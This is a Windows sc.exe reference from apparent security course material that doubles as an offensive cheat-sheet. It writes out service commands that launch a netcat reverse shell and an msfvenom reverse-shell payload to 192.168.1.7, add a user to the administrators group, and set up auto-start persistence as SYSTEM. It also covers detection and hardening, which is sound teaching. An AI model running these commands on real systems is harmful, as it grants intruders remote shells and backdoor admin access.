

# Service Controller Utility Commands

The Service Controller utility (`sc.exe`) is the built-in Windows command-line tool for communicating with the Service Control Manager (SCM) to query, configure, create, start, stop, and delete Windows services. Because services run in the background — often as the highly-privileged `LocalSystem` account — `sc` is both a core administration tool and a well-known offensive primitive for persistence and privilege escalation.

## Overview

Windows services are long-running background processes managed by the **Service Control Manager**. Each service has a configuration (binary path, startup type, and logon account) stored in the registry under `HKLM\SYSTEM\CurrentControlSet\Services`. The `sc` utility is the thin CLI over the same SCM APIs the Services MMC sn-in uses, so anything the GUI can do to a service — including changing its executable or account — `sc` can do from a shell.

By default a service created with `sc create` runs as `LocalSystem`, the most privileged local account. That single fact is why service creation and reconfiguration appear so often in Privilege-Escalation and persistence tradecraft: if an attacker can create or reconfigure a service, the command they point it at executes as SYSTEM. This note is both an administration reference and an offensive cheat-sheet; see [Net-Services-Suite](Net-Services-Suite.md) for the overlapping `net start`/`net stop` commands and [WMIC-Commands](WMIC-Commands.md) for the `wmic service` equivalents.

> [!NOTE]
> **`sc` command syntax**
> `sc` options use the form `option= value` — a space is required **after** the equals sign and none before it (e.g. `binPath= "C:\path\app.exe"`, `start= auto`). Omitting that space is the most common cause of "invalid syntax" errors. When a service name or path contains spaces, wrap the whole `binPath=` value in quotes.

## Querying Services

- Display information about a specified service

```cmd
sc query
```

- Display extended information about a service

```cmd
sc queryex type= service
```

- Display services of type 'service'

```cmd
sc query type= service
```

- Find specific service states

```cmd
sc query | find "STATE"
```

- Find a specific service by name

```cmd
sc query | find "Server"
```

- Query a specific service

```cmd
sc query LanmanServer
```

## Service Configuration

- Display the configuration of a service

```cmd
sc qc Audiosrv
```

- Stop a service

```cmd
sc stop Audiosrv
```

- Start a service

```cmd
sc start Audiosrv
```

- Pause a service

```cmd
sc pause Audiosrv
```

- Resume a paused service

```cmd
sc continue Audiosrv
```

- Configure service startup and login accounts

```cmd
sc config Audiosrv
```

### Startup Types

The `start=` parameter controls when a service launches:

| Value | Meaning |
|-------|---------|
| `auto` | Automatic startup at boot |
| `demand` | Manual startup (started on request) |
| `disabled` | Disabled — cannot be started |
| `boot` / `system` | Loaded by the boot loader / kernel (drivers) |

## Creating and Managing Services

- Create a new service

```cmd
sc create nc binPath= "C:\Windows\nc64.exe -e cmd.exe 192.168.1.7 443"
```

- Query the configuration of a created service

```cmd
sc qc nc
```

- Query the status of a created service

```cmd
sc query nc
```

- Start the created service

```cmd
sc start nc
```

- Delete a service

```cmd
sc delete nc
```

- Configure a service to run a specific command

```cmd
sc config nc binPath= "C:\Windows\nc64.exe 192.168.1.7 4444 -e cmd.exe"
```

- Create a service to send ICMP packets

```cmd
sc create pingme binPath= "ping 192.168.1.7"
```

- Start the ICMP service

```cmd
sc start pingme
```

- Create a user creation service

```cmd
sc create useradd binPath= "net user u1 @rmour123 /add"
```

- Start the user creation service

```cmd
sc start useradd
```

- Configure a service to add a user to administrators group

```cmd
sc config useradd binPath= "net localgroup administrators u1 /add"
```

- Start the privilege elevation service

```cmd
sc start useradd
```

> [!TIP]
> **Why service commands often "fail" but still work**
> A service `binPath` is expected to point at a proper Windows service binary that responds to SCM control messages. Plain commands like `ping`, `net user`, or a reverse-shell exe are not real services, so `sc start` typically returns error **1053** ("the service did not respond to the start request in a timely fashion") — yet the command in the `binPath` has already executed. In offensive use, the error is expected; the side effect (user added, shell fired) is the goal.

## Exploitation Example

By default a service runs as `LocalSystem`, so pointing a service at a payload yields code execution as SYSTEM. The following creates a service that launches a Meterpreter/`shell_reverse_tcp` executable, sets it to auto-start (a crude persistence mechanism), and triggers it.

- Generate a reverse shell executable using `msfvenom`

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.7 LPORT=443 -f exe > shell.exe
```

- Configure a service to execute the shell

```cmd
sc create msfvenom_shell binPath= "C:\Users\Public\shell.exe"
```

```cmd
cmd /c "sc create msfvenom_shell binPath= C:\Users\Public\shell.exe"
```

- Change a service's startup type

```cmd
sc config msfvenom_shell start= auto
```

```cmd
cmd /c "sc config msfvenom_shell start= auto"
```

- `auto` – Automatic startup
- `demand` – Manual startup
- `disabled` – Disabled

```cmd
sc start msfvenom_shell
```

- Restart the system immediately

```cmd
shutdown /r /t 0 /f
```

The following diagram shows why service abuse is a reliable path to SYSTEM.



## Service Management Using `net`

- Start a service using `net`

```cmd
net start Audiosrv
```

- Stop a service using `net`

```cmd
net stop Audiosrv
```

- Pause a service using `net`

```cmd
net pause Audiosrv
```

- Resume a paused service using `net`

```cmd
net continue Audiosrv
```

## Using `wmic` to Manage Services

- List all services with details

```cmd
wmic service get name,displayname,pathname,startmode
```

- List all auto-start services

```cmd
wmic service get name,displayname,pathname,startmode | findstr /i "auto"
```

- List all auto-start services excluding those in `C:\Windows`

```cmd
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows"
```

> [!NOTE]
> **`wmic` is deprecated**
> The `wmic` client is deprecated in modern Windows and may be absent on hardened or recent builds. Prefer the PowerShell equivalents `Get-Service` and `Get-CimInstance Win32_Service` for new work; the `wmic` forms above remain useful in constrained legacy shells. See [WMIC-Commands](WMIC-Commands.md) and [PowerShell-Commands-for-Penetration-Testing](PowerShell-Commands-for-Penetration-Testing.md).

## Security Considerations

Service configuration is one of the most productive local privilege-escalation surfaces on Windows precisely because services usually run as SYSTEM.

> [!WARNING]
> **Service abuse is a top privilege-escalation and persistence vector**
> - **Weak service permissions** — if a low-privileged user holds `SERVICE_CHANGE_CONFIG` (or write access to the service's registry key), they can repoint `binPath=` at their own payload and gain SYSTEM. Enumerate this with tools such as `accesschk` or `winPEAS`.
> - **Unquoted service paths** — a service `binPath` with spaces and no quotes (e.g. `C:\Program Files\My App\svc.exe`) lets an attacker drop `C:\Program.exe` and have it run as SYSTEM. See Windows-Privilege-Escalation.
> - **Weak binary/folder ACLs** — if the service executable or its directory is writable by non-admins, the binary can simply be replaced. See [Non-Administrator-User-Write-Permission-Locations-in-Windows](Non-Administrator-User-Write-Permission-Locations-in-Windows.md).
> - **Persistence** — `sc create ... start= auto` survives reboots; attackers use it as a durable backdoor.
> - **Detection** — service installation generates **Event ID 7045** ("A service was installed in the system") in the System log and **Event ID 4697** in the Security log (when service-install auditing is enabled). `sc.exe` is a common living-off-the-land binary — baseline and alert on unexpected use.

## Best Practices

- Grant service-configuration rights (`SERVICE_CHANGE_CONFIG`, registry write) only to administrators; audit them with `accesschk`.
- Always **quote** service binary paths and run services under the least-privileged account that works (`NT SERVICE\<name>`, `LocalService`, or a gMSA) instead of `LocalSystem`.
- Restrict write access to service executables and their parent directories.
- Monitor and alert on **Event ID 7045 / 4697** and on `sc create` / `sc config` command lines in EDR.
- Test service changes on a snapshot — a misconfigured critical service can prevent boot.

## Troubleshooting

| Symptom | Likely cause & fix |
| --- | --- |
| `[SC] ... FAILED 5: Access is denied.` | Not in an elevated shell — reopen CMD/PowerShell as Administrator (UAC). |
| `[SC] ... FAILED 1072: ... marked for deletion` | The service is still referenced (e.g. Services MMC open) — close handles or reboot, then re-create. |
| Error `1053: the service did not respond ... in a timely fashion` | The `binPath` is a plain command, not a real service binary — expected; the command still ran. |
| `[SC] OpenService FAILED 1060` | The named service does not exist — check spelling with `sc query`. |
| "Invalid syntax" on `create`/`config` | Missing space after `binPath=` / `start=`, or an unquoted path with spaces. |

## Additional Resources

- ServiceSecurityEditor — GUI for editing Windows service permissions: [ServiceSecurityEditor](https://www.coretechnologies.com/products/ServiceSecurityEditor/)

## References

- [sc.exe — Windows commands reference (Microsoft Learn)](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/sc-config)
- [Service Control Manager (Microsoft Learn)](https://learn.microsoft.com/en-us/windows/win32/services/service-control-manager)
- [Event ID 4697 — A service was installed in the system (Microsoft Learn)](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4697)
- [LOLBAS — living-off-the-land binaries](https://lolbas-project.github.io/)

## Related
- [Enterprise Windows Infrastructure Security](../Readme.md) — course hub
- [Net-Services-Suite](Net-Services-Suite.md) — net start/stop complements the sc utility
- [WMIC-Commands](WMIC-Commands.md) — the `wmic service` equivalents
- [Windows-Registry](Windows-Registry.md) — where service configuration is stored (`...\Services`)
- Privilege-Escalation — unquoted/weak service configs are a privesc vector
- Windows-Privilege-Escalation — service-based Windows privilege escalation
- [Non-Administrator-User-Write-Permission-Locations-in-Windows](Non-Administrator-User-Write-Permission-Locations-in-Windows.md) — writable paths that enable binary replacement
